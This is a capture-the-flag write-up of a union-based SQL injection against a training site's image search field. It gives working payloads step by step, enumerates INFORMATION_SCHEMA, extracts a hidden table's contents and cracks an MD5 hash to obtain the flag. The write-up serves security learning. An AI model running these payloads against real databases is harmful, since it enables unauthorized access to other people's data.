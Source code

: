 ### Title: <span style="color:blue">SQL Injection Vulnerability in Image Input Field</span>

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

**Location:** `page=searchimg`

**Step 0:** 

write `1` in the input field; an SQL result will be thrown, which means that the `image input` field is vulnerable to SQL injectionß

```sql
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

```

**Step 1:** try to write `74 or true` SQL Statement in saerch image input field:

**Result:**
the original SQL query is not properly sanitized or parameterized, the injected code might be incorporated into the WHERE clause as
SELECT * FROM <images_table_name> WHERE id = 74 or true;
In this injected code, 74 or true manipulates the WHERE clause of the original query to always return true, effectively bypassing any conditions intended to restrict the results.

```sql
ID: 74 or true 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 74 or true 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 74 or true 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 74 or true 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 74 or true 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

```

**Step 2 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order.

```

```sql

74 or 1=1 UNION SELECT null; -- not working
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- not working
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : db_default

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : users

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : guestbook

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : list_images

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : vote_dbs

```
Here's a breakdown of what's happening:
* The original query appears to be something like 
    ``` sql
    SELECT column1, column2 FROM table_name WHERE ID = ''
    ```
* The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
* Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
* The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table
and as its a search filed on images we will be intrested on retrieving data from the list_image table


```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql 
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: id
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: url
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: title
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: comment
Url : list_images

```
we tried :
```sql 
74 or 1=1 union select id, url  from list_images
74 or 1=1 union select  title, comment from list_images


```
After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the seconf query
the result shows : 

```sql
ID: 74 or 1=1 union select  title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

```
The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions 

decrypt MD5(1928e8083cf461a51303633093573c46) :`albatroz` 
lowercase the dycrepted value: `albatroz`
SHA256(albatroz): `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

the flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188




**Resources:**

information_shema: 

* https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection: 

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
* https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
* https://portswigger.net/web-security/sql-injection

dCode: 

* https://www.dcode.fr/identification-chiffrement